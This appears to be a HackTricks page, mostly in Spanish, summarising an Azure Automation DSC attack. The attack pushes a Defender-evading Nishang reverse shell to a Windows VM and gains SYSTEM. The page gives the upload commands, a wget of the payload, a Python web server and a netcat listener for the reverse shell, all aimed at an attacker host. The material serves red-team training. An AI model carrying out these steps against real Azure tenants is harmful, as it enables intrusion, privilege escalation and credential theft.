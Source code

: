 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

El proceso implica configurar una infraestructura de servidor remoto para alojar una carga útil modificada de Nishang `Invoke-PowerShellTcp.ps1`, llamada `RevPS.ps1`, diseñada para eludir Windows Defender. La carga útil se sirve desde una máquina Kali Linux con IP `40.84.7.74` utilizando un simple servidor HTTP de Python. La operación se ejecuta a través de varios pasos:

#### Step 1 — Create Files

* **Files Required:** Se necesitan dos scripts de PowerShell:
1. `reverse_shell_config.ps1`: Un archivo de Configuración de Estado Deseado (DSC) que obtiene y ejecuta la carga útil. Se puede obtener de [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Un script para publicar la configuración en la VM, disponible en [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
* **Customization:** Las variables y parámetros en estos archivos deben adaptarse al entorno específico del usuario, incluidos los nombres de recursos, rutas de archivos e identificadores de servidor/carga útil.

#### Step 2 — Zip Configuration File

* El `reverse_shell_config.ps1` se comprime en un archivo `.zip`, preparándolo para la transferencia a la Cuenta de Almacenamiento de Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Paso 3 — Establecer el contexto de almacenamiento y cargar

* El archivo de configuración comprimido se carga en un contenedor de almacenamiento de Azure predefinido, azure-pentest, utilizando el cmdlet Set-AzStorageBlobContent de Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Paso 4 — Preparar Kali Box

* El servidor Kali descarga la carga útil RevPS.ps1 de un repositorio de GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* El script se edita para especificar la VM de Windows objetivo y el puerto para el shell inverso.

#### Step 5 — Publish Configuration File

* El archivo de configuración se ejecuta, lo que resulta en que el script de shell inverso se despliega en la ubicación especificada en la VM de Windows.

#### Step 6 — Host Payload and Setup Listener

* Se inicia un Python SimpleHTTPServer para alojar la carga útil, junto con un listener de Netcat para capturar conexiones entrantes.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* La tarea programada ejecuta la carga útil, logrando privilegios a nivel de SYSTEM.

#### Conclusión

La ejecución exitosa de este proceso abre numerosas posibilidades para acciones adicionales, como la extracción de credenciales o la expansión del ataque a múltiples VMs. La guía fomenta el aprendizaje continuo y la creatividad en el ámbito de Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
